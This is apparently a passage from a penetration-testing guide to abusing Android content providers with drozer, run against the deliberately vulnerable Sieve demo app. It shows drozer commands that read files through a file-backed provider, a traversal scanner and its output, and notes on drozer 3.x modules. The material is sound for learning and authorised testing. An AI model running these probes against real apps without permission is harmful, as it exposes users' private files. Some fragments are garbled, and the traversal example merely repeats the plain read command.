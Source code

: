 ```
  notes
  sqlite_sequence
```
```
## **File System-backed Content Providers**

Content providers could be also used to **access files:**

![[<../../../images/image (407).png>|]]

### Read **file**

You can read files from the Content Provider

```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
127.0.0.1            localhost
```
```
### **Path Traversal**

If you can access files, you can try to abuse a Path Traversal (in this case this isn't necessary but you can try to use "_../_" and similar tricks).

```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
127.0.0.1            localhost
```
```
**Automatic Path Traversal discovery by Drozer**

```
dz> run scanner.provider.traversal -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Vulnerable Providers:
  content://com.mwr.example.sieve.FileBackupProvider/
  content://com.mwr.example.sieve.FileBackupProvider
```
```
## 2023-2025 Updates & Modern Tips

### Drozer 3.x (Python 3) is out

WithSecure resumed maintenance of drozer in 2022 and ported the framework to **Python 3** (latest **3.1.0 – April 2024**).  
Besides compatibility fixes, new modules that are particularly useful when working with Content Providers include:

* `scanner.provider.exported` – list only providers with `android:exported="true"`.
* `app.provider.grant` – automatically call `grantUriPermission()` so you can talk to providers that expect `FLAG_GRANT_READ_URI_PERMISSION` / `FLAG_GRANT_WRITE_URI_PERMISSION` on Android 12+.
* Better handling of **Scoped Storage** so file-based providers on Android 11+ can still be reached.
